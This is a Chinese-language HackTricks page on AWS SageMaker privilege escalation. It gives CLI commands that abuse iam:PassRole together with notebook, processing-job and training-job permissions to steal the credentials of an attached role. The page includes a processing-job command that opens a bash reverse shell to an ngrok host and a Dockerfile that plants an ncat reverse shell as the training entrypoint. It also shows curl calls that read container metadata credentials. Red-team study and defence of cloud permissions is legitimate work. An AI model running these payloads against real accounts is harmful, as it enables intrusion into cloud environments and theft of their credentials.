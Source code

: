 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

开始创建一个与其关联的 IAM 角色的笔记本：
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
响应应包含一个 `NotebookInstanceArn` 字段，该字段将包含新创建的笔记本实例的 ARN。然后，我们可以使用 `create-presigned-notebook-instance-url` API 生成一个 URL，以便在笔记本实例准备好后访问它：
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
导航到浏览器中的 URL，点击右上角的 \`Open JupyterLab\`，然后向下滚动到“Launcher”选项卡，在“Other”部分，点击“Terminal”按钮。

现在可以访问 IAM 角色的元数据凭证。

**潜在影响：** 提升到指定的 sagemaker 服务角色。

### `sagemaker:CreatePresignedNotebookInstanceUrl`

如果已经在上面运行了 Jupyter **notebooks**，并且您可以通过 `sagemaker:ListNotebookInstances` 列出它们（或以其他方式发现它们）。您可以 **为它们生成一个 URL，访问它们，并窃取凭证，如前面技术所示**。
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**潜在影响：** 提升到附加的 sagemaker 服务角色。

### `sagemaker:CreateProcessingJob,iam:PassRole`

拥有这些权限的攻击者可以使 **sagemaker 执行一个 processingjob**，并附加一个 sagemaker 角色。攻击者可以指明将在 **AWS 管理的 ECS 账户实例** 中运行的容器的定义，并 **窃取附加的 IAM 角色的凭证**。
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**潜在影响：** 提升到指定的 sagemaker 服务角色。

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

拥有这些权限的攻击者将能够创建一个训练作业，**在其上运行任意容器**，并附加一个**角色**。因此，攻击者将能够窃取该角色的凭证。

{% hint style="warning" %}
这个场景比前一个更难以利用，因为你需要生成一个 Docker 镜像，该镜像将直接将 rev shell 或凭证发送给攻击者（你无法在训练作业的配置中指示启动命令）。
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**潜在影响：** 提升到指定的 sagemaker 服务角色。

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

拥有这些权限的攻击者将（可能）能够创建一个 **超参数训练作业**，**在其上运行一个任意容器**，并附加一个 **角色**。\
_我还没有利用这个漏洞，因为时间不够，但看起来与之前的漏洞类似，欢迎提交 PR 以提供利用细节。_

## 参考文献

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
